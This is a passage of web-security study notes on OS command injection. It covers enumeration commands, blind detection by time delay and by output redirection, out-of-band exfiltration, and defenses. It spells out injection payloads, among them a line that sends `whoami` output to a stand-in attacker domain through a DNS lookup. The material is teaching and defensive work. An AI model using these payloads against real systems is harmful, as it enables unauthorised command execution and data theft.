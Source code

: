 ### Useful Commands

* | Command Purpose      | Linux         | Windows         |
  | -------------------- | ------------- | --------------- |
  | Name of current user | `whoami`      | `whoami`        |
  | OS enum              | `uname -a`    | `ver`           |
  | Network config       | `ifconfig`    | `ipconfig \all` |
  | Network connections  | `netstat -an` | `netstat -an`   |
  | Running processes    | `ps -f`       | `tasklist`      |

### Blind OS Command Injection

* Your input may be injected into some program that doesn't actually have any output (eg: `mail`), so we need to blindly identify a command injection vuln.

#### Detection with Time Delays

* `& ping -c 10 127.0.0.1 &` will cause a 10 second delay if the command is injected successfully.

#### Detection by Redirecting Output

* Redirect output from inject command into a file in web root that we can retrieve later
* Eg: static resources may be accessible by users at `/var/www/static`
* We can then inject and redirect output with:
  * `& <command> > /var/www/static/our_file.txt &`
* We can then access `/our_file.txt` in our browser

#### Exploitation with Out-of-band Techniques

* Detection of command injection
  * Network interactions such at `nslookup` to cause a DNS lookup for your domain to indicate the command inject succeeded
* Exfiltration with command injection
  * Using a domain such as ```  `whoami`.maliciousdomain.com   ``` will cause a DNS lookup to the attack controlled domain, containing the result of the `whoami` command in the subdomain.

### Defense

* Most effective (if possible): never call out to OS commands from application-layer (or at least use safer platform APIs)
* If OS commands MUST be used with user-supplied input:
  * Validate against whitelist
  * Validate input is number (or some other constraint)
  * Or validate input only contains alphanumerics
* NEVER attempt to sanitize input by escaping shell metacharacters. This is too error-prone and can be bypassed.

## Information Disclosure

* Aka information leakage, this is when a site unintentionally reveals sensitive information to users (and/or attackers). This can be commercial/business data, PII/user data, or technical details about the site/infrastructure
